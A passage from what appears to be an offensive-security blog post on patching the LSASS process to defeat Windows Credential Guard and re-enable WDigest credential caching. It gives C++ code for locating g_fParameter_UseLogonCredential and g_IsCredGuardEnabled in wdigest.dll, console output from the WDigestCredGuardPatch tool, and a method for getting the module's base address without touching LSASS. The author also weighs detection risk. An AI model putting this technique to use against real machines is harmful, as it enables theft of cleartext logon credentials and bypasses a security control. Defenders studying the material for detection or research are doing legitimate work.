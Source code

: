 ```cpp
DWORD dwUseLogonCredentialOffset, dwIsCredGuardEnabledOffset;

RtlMoveMemory(&dwUseLogonCredentialOffset, &Code[2], sizeof(dwUseLogonCredentialOffset));
RtlMoveMemory(&dwIsCredGuardEnabledOffset, &Code[8], sizeof(dwIsCredGuardEnabledOffset));
dwUseLogonCredentialOffset += 6 + dwCodeOffset;
dwIsCredGuardEnabledOffset += 6 + 6 + dwCodeOffset;

wprintf(L"Offset of g_fParameter_UseLogonCredential: 0x%08x\r\n", dwUseLogonCredentialOffset);
wprintf(L"Offset of g_IsCredGuardEnabled: 0x%08x\r\n", dwIsCredGuardEnabledOffset);
```

And here is the result.

```console
C:\Temp>WDigestCredGuardPatch.exe
Exactly one match found, good to go!
Matched code at 0x00001839: 39 1d 75 49 03 00 8b 05 c3 43 03 00
Offset of g_fParameter_UseLogonCredential: 0x000361b4
Offset of g_IsCredGuardEnabled: 0x00035c08
```

### Finding the base address

Now that we know the _absolute_ offsets of the two global variables, we must determine their absolute address in the target process `lsass.exe`. Of course, this part was already implemented in the original [PoC](https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240), using the following method:

1. Open the `lsass.exe` process with `PROCESS_ALL_ACCESS`.
2. List the loaded modules with `EnumProcessModules`.
3. For each module, call `GetModuleFileNameExA` to determine whether it is `wdigest.dll`.
4. If so, call `GetModuleInformation` to get its base address.

Ideally, we would like to interact as less as possible with LSASS, but as we need to patch it anyway, this method works perfectly fine. I just wanted to take this opportunity to present another approach and discuss some aspects of Windows DLLs.

The key thing is that the base address of a module is determined when it is first loaded. Therefore, any subsequent process loading this module will use the exact same base address. In our case, this means that if we load `wdigest.dll` in our current process, we will be able to determine its base address without even having to touch LSASS. (I will admit that this sounds a bit dumb because the whole purpose is to eventually patch it.)

Loading a DLL is commonly done through the Windows API `LoadLibraryW` or `LoadLibraryExW`. The documentation states that they return "_a handle to the module_", but I would say that it is a bit misleading. These functions actually return a `HMODULE`, which is not a typical kernel object `HANDLE`. In  reality, the `HMODULE` value is... the base address of the module.

In conclusion, we can get the base address of `wdigest.dll` in the `lsass.exe` process simply by running the following code in our own context. One could argue that loading `wdigest.dll` might look suspicious, but it is nothing compared to patching LSASS anyway so this is not really my concern here.

```cpp
HMODULE hModule;
if ((hModule = LoadLibraryW(L"wdigest.dll")))
{
  wprintf(L"Base address of wdigest.dll: 0x%016p\r\n", hModule);
  FreeLibrary(hModule);
}
```

